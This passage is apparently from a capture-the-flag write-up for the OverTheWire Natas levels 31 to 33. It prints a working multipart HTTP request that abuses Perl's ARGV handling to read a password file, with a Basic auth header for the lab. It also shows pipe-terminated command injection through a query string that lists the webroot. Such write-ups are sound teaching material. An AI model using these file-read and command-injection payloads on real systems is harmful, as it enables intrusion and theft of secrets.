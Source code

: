 Another good tidbit of information -- if this first 'file' value is a scalar, a plain string will be stored, and not a file handle. Why is this important? 

The while loop which iterates through the file contents, `while (<$file>)` does something special if the string value of $file is ARGV. It will loop through the query parameters and pass them to an open() call. If $file was any other plain string, nothing useful would happen.

Putting this all together, I formed the following request:
```
POST /index.pl?%2Fetc%2Fnatas_webpass%2Fnatas32 HTTP/1.1
Host: natas31.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNVAqSsCF
Origin: http://natas31.natas.labs.overthewire.org
DNT: 1
Authorization: Basic bmF0YXMzMTpoYXk3YWVjdXVuZ2l1S2FlenVhdGh1azliaWluMHB1MQ==
Connection: close
Referer: http://natas31.natas.labs.overthewire.org/index.pl
Upgrade-Insecure-Requests: 1
Content-Length: 347

------WebKitFormBoundaryNVAqSsCF
Content-Disposition: form-data; name="file"

ARGV
------WebKitFormBoundaryNVAqSsCF
Content-Disposition: form-data; name="file"; filename="hi.txt"
Content-Type: text/html

hihihi
------WebKitFormBoundaryNVAqSsCF
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundaryNVAqSsCF--

``` 

And password.
<details><summary>Password</summary></details>

## level 32 -> 33

This level appears to be basically identical to the previous, with the exception of a message informing me I must prove I have RCE and that there is an executable I must run in webroot.

Using what I've just learned in the last level, I should be able to pass in a query string that is a command terminated with a '|'. 
Frustratingly, trying `/index.pl?ls|` doesn't get my any output. Maybe I'll try using the more verbose `ls . |` 
And that works!
```
<h1>natas32</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>.:
</th></tr><tr><td>bootstrap-3.3.6-dist
</td></tr><tr><td>getpassword
</td></tr><tr><td>getpassword.c
</td></tr><tr><td>getpassword.c.tmpl
</td></tr><tr><td>index-source.html
</td></tr><tr><td>index-source.pl
</td></tr><tr><td>index.pl
</td></tr><tr><td>index.pl.tmpl
```